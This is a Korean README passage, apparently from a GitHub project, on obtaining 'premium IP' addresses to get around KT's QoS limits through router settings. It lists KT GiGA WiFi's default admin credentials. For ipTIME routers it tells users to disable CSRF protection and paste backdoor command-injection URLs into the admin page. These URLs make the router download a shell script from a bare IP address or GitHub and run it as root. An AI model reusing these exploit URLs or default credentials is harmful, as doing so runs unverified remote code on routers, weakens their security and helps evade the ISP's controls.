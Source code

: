 ## 넷기어 (예시로서 나이트호크 RAX80)

<img width="1424" alt="Nighthawk_RAX80" src="https://github.com/user-attachments/assets/c5c1ba09-4d63-4d28-8e2b-3f1344e36719" />

## 시놀로지RT (예시로서 RT1900ac)

![RT1900ac](https://github.com/user-attachments/assets/5ea5243e-821a-42c5-a18d-e3f2dcd5319e)

## KT GiGA WiFi에서 수동IP설정 대신 '수동 IP 할당 설정'**(DHCP 정적 할당, 일부 기기만 지원)** 을 사용하기
KT GiGA WiFi와 연결된 기기에서 http://172.30.1.254:8899 , 구성되지 않은 경우 ID는 ktuser , 비번은 megaap 또는 homehub 로 로그인 후 새로운 사용자 이름과 비번을 설정하여 사용자 설정 페이지에 접근할 수 있습니다\:

장치설정 - 네트워크 관리 - LAN 연결 설정

머큐리 - 148을 지우고 252를 입력한 다음, 적용 버튼을 누르지 않고 **각 기기**의 MAC 주소를 입력하여 설정을 추가

다보링크 - 148을 지우고 252를 입력한 다음, 적용 버튼을 누르고 **각 기기**의 MAC 주소를 입력하여 설정을 추가

![StaticLeasePremiumIP_KTGiGAWiFi](https://github.com/user-attachments/assets/9d7bda7f-f1a5-4663-8435-f91347cf6cbf)

__변경 사항은 다음에 유선 또는 무선으로 연결될 때 적용되므로 KT GiGA WiFi를 재시동하거나 각 기기의 네트워크 연결을 끊었다가 다시 연결해야 할 수 있습니다.__
## iptime
백도어 출처 - https://github.com/tylzars/iptime-debug - 펌웨어 버전 15.10.0, ipTIME A2004S에서 동작 확인됨<br>
> [!NOTE]
> BE3600M/BE5100M 등 AN7563PT 탑재 기기를 지원하지 않는 문제가 확인되어 미러 링크에서 먼저 해당 문제를 수정하였으며, 곧 원본 링크에도 제공될 예정입니다.<br>
> 위 출처와 같이 iptime 공유기의 '원격 지원'기능에 잠재된 백도어에 접근할 방법이 있는 경우에만 유효합니다

<a href="https://github.com/veilRedeemer/udhcp/releases">미리 빌드된 udhcpc 출처</a>

1. 적용하려는 기기는 관리자 계정/비밀번호가 설정되어 있어야 하며, 다음으로 '악성 스크립트 접근 방지(CSRF)'기능이 꺼져 있으며, 마지막으로 '원격 지원'기능을 켜 주세요:
<img width="285" alt="iptime1" src="https://github.com/user-attachments/assets/ef4882cc-03a4-4478-acd1-a0418048dca0" />

2. 아래 주소 중 상황에 맞는 적절한 **하나**의 '⧉'를 선택하여 복사 후 로그인한 관리자 페이지의 주소 칸에 붙여넣어 마칩니다.<br>
먼저 첫번째 주소는, 아래 스크린샷과 같이 'wget: not an http or ftp url' 메시지가 출력되며 원본 링크의 암호화된 연결을 지원하지 않는 환경에서 사용할 수 있는 미러 링크로서, 접속자의 IP 주소와 타임스탬프를 포함한 접속 기록을 저장함에 동의하고 사용하세요:
```
http://192.168.0.1/sess-bin/d.cgi?act=1&fname=&aaksjdkfj=!@dnjsrurelqjrm*%26&dapply=%20Show%20&cmd=wget%20-O%20%2ftmp%2fstart.sh%20http%3a%2f%2f168.138.196.144%2fiptime_bootstrap.sh%20%3bchmod%20755%20%2ftmp%2fstart.sh%20%3b%2ftmp%2fstart.sh
```
<img width="498" alt="notls" src="https://github.com/user-attachments/assets/6ee27eda-0b7f-4213-a868-7a118907b1d3" />

> [!NOTE]
> Network Unreachable 오류가 출력되는 경우 원본 또는 미러 서버로부터 필요한 파일을 다운로드하지 못한 것이며, 미러 서버가 드물게 접속자의 IP 대역을 허용하지 않았을 수 있으므로 KT 인터넷을 사용중인 것이 맞다면 제보해주시기 바랍니다.

또는 둘 중 사용자의 환경에서 사용 가능한 원본 링크 사용:
```
http://192.168.0.1/sess-bin/d.cgi?act=1&fname=&aaksjdkfj=!@dnjsrurelqjrm*%26&dapply=%20Show%20&cmd=curl%20-Lo%20%2ftmp%2fstart.sh%20https%3a%2f%2fraw.githubusercontent.com%2fveilRedeemer%2fbypassQoSKoreatelecomISP%2frefs%2fheads%2fmain%2fiptime_bootstrap.sh%20%3bchmod%20755%20%2ftmp%2fstart.sh%20%3b%2ftmp%2fstart.sh
```
```
http://192.168.0.1/sess-bin/d.cgi?act=1&fname=&aaksjdkfj=!@dnjsrurelqjrm*%26&dapply=%20Show%20&cmd=wget%20-O%20%2ftmp%2fstart.sh%20https%3a%2f%2fraw.githubusercontent.com%2fveilRedeemer%2fbypassQoSKoreatelecomISP%2frefs%2fheads%2fmain%2fiptime_bootstrap.sh%20%3bchmod%20755%20%2ftmp%2fstart.sh%20%3b%2ftmp%2fstart.sh
```
3. 아래와 같이 표시되면 성공. 다운로드한 데이터와 **취득한 프리미엄 IP를 포함**하여 2번 이후의 변경 사항은 특정 공유기 설정을 변경하거나 재부팅되거나 전원이 끊어지면 지워집니다:

[^1]: 동네 컴퓨터 수리점 등